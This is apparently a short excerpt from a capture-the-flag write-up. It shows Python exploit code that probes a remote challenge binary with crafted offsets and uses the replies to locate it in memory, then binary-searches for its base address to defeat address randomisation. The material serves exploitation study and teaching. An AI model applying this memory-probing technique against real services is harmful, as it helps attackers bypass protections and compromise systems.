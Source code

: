 ![image](ppv_mem.png)


```python
    # Size of the first allocation done internally by glibc.
    first_alloc_offset = 0x1860
    i = 1
    # Size of our executable.
    bin_size = 0xb1000
    # Offset to the beginning of the heap.
    heap_base = -first_alloc_offset

    # Search where the binary is in memory.
    # We do it in multiples of bin_size so it's not that hard to
    # find it.
    p = log.progress("searching for binary")
    while True:
        offset = heap_base - i*bin_size
        p.status(f"trying {i=} {offset=}")
        io.sendline(f"{offset}".encode())
        
        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            break
        
        heap_base -= 0x20 # malloc chunk size
        i += 1
    p.success(f"binary was found at offset {offset}")
    
    # Binary search for the base of the binary.
    l = offset - heap_base
    r = l + bin_size
    p = log.progress("searching for binary base")
    while l <= r:
        m = (l+r) // 2
        p.status(f"trying {l=} {r=} {m=}")
        io.sendline(f"{m}".encode())

        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            l = m+1
        else:
            r = m-1
        l -= 0x20
        r -= 0x20
    bin_base_offset = m - bin_size
```